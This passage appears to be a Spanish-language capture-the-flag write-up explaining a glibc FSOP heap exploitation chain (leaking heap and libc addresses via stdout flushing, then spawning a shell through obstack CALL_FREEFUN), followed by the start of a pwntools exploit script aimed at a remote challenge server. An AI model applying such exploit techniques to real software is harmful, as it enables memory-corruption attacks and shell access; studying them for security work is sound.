 Para lekea primero debemos hacer el siguiente FSOP

*_IO_file_doallocate* > *_IO_buf_base* => call *_IO_new_file_sync* => *_IO_do_flush* con los argumentos. 

Para esto debemos setear correctamente los argumentos: *_fileno* debe ser 1 (stdout),*_IO_write_base* and *_IO_read_end* tienen la dirección base desde donde lekear, *_IO_write_ptr* indica el final del buffer. Controlando esto podemos obtener una dirección de heap y luego de libc (hay que hacerlo dos veces modificando los parámetros acorde)
Luego podemos obtener una shell usando el siguiente FSOP
 
*_IO_obstack_overflow* => *CALL_FREEFUN*.

Los requerimientos del struct *obstack* deben cumplirse para que el punter *fp* llamé correctamente a *CALL_FREEFUN*
Con esto obtenemos una shell, aca el exploit con más detalle.

```python
#!/usr/bin/python3
from pwn import *
# # break in fflush if needed to inspect the file stream
gs = '''
continue
'''
elf = context.binary = ELF('./chall')
context.terminal = ['tmux', 'splitw', '-hp', '70']
libc = elf.libc
def start():
    if args.GDB:
        return gdb.debug('./chall', gdbscript=gs)
    if args.REMOTE:
        return remote('146.190.77.77', 1337)
    else:
        return process('./chall')
r = start()
#r.timeout = 1
def flush():
    r.sendline(b"1")
    #r.recvuntil(b">")
def trick(offset, value):
    r.sendline(b"2")
# sleep(1)
    r.sendlineafter(b"Mana:", str(offset).encode())
    r.sendlineafter(b"Spell:", str(value))
    r.recvuntil(b">")
def write_addr(offset, addr):
    addr = p64(addr)
    for i in range(8):
        trick(offset+i, addr[i])
#========= exploit here ===================
# Setting the offsets for the filestream
_flags =0x0
_IO_read_ptr = 8
_IO_read_end = 0x10
_IO_read_base = 0x18
_IO_write_base = 0x20
_IO_write_ptr = 0x28
_IO_write_end = 0x30
_IO_buf_base = 0x38
_IO_buf_end = 0x40
_IO_save_base = 0x48
_IO_backup_base = 0x50
_IO_save_end = 0x58
_markers = 0x60
_chain = 0x68
_fileno = 0x70
```